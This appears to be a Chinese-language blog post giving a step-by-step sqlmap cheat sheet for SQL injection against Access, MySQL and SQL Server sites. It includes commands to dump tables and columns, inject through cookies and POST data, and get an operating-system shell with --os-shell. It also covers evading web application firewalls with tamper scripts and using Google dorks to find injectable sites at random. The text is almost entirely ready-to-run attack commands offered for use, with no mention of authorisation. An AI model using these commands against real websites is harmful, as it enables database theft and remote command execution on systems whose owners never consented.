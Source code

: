 ```yaml
---
layout: post
title: "sqlmap simple useage"
date: <2017-05-18 15:41:20>
tags: sqlmap
description: sqlmap most simple usage
share: 
---
```


# SQLMAP实战操作：
1. ACCESS数据库：

``` shell
sqlmap.py -u “url” /*-u为常规扫描参数*/
sqlmap.py -u “url” –tables /*–tables拆数据库表*/
sqlmap.py -u “url” –columns -T “要拆的表名”/*列出指定表名*/
sqlmap.py -u “url” –dump -T “要拆的表名”-C “要拆的字段名” /*–dump为拆解字段名会保存在sqlmap/output目录下*/
```

2. MYSQL数据库：

``` shell
sqlmap.py -u “url” /*扫描注入点*/
sqlmap.py -u “url” –dbs /*列出所有数据库*/
sqlmap.py -u “url” –current-db /*列出当前数据库*/
sqlmap.py -u “url” –current-user /*列出当前用户*/
sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/
sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/
sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”
```

3. SQLSERVER数据库：

``` shell
sqlmap.py -u “url” /*扫描注入点*/
sqlmap.py -u “url” –dbs /*列出所有数据库*/
sqlmap.py -u “url” –current-db /*列出当前数据库*/
sqlmap.py -u “url” –current-user /*列出当前用户*/
sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/
sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/
sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”
SQLSERVER操作和MYSQL是一样的！！！常见的几种数据库！！！
```

4. COOKIE注入：

``` shell
sqlmap.py -u “www.xxx.com/asp或者www.xxx.com/php” –cookie “参数名如id=1” –level 2/*level为提升权限*/
什么数据库就按照上面的数据库加上cookie语句拆解就行了
```

5. POST注入：

_抓包保存到SQLMAP目录下.txt的文件然后输入指令sqlmap.py -r xxx.txt /*xxx.txt为保存包文件的文件名”_

``` shell
sqlmap.py -u “url” –data “POST参数”
```

6. 执行shell命令：

``` shell
sqlmap.py -u “url” –os-cmd=”net user” /*执行net user命令*/
sqlmap.py -u “url” –os-shell /*系统交互的shell*/
```

7. 注入HTTP请求 :

``` shell
sqlmap.py -r xxx.txt –dbs /*xxx.txt内容为HTTP请求*/
```

8. 绕过WAF的tamper插件使用：

``` shell
sqlmap.py -u “url” –tamper “xxx.py”
sqlmap.py -u “url” –tamper=”xxx.py”
```

>关于tamper脚本详细说明在本博客中有，链接为：http://www.matsec.cn/?id=5
9. 将注入语句插入到指定位置：

``` shell
sqlmap.py -u “url(www.xxx.com/id/1*.html)” –dbs
```

>Note 
{: .note}

有些网站是采用伪静态的页面使用SQLMAP的普通注入是不行的，所以SQLMAP提供了”*”参数将SQL语句插入指定位置，一般用于伪静态注入。
在使用HTTP注入时使用-r参数也可以直接在文本中添加*号

10. 延时注入：

``` shell
sqlmap –dbs -u “url” –delay 0.5 /*延时0.5秒*/
sqlmap –dbs -u “url” –safe-freq /*请求2次*/
```

11. 使用谷歌语法搜索注入(Google hack)：

``` shell
sqlmap.py -g “inurl:asp?id=1” /*””内为搜索语法，如：inurl,intitle,site,filetype等等
```
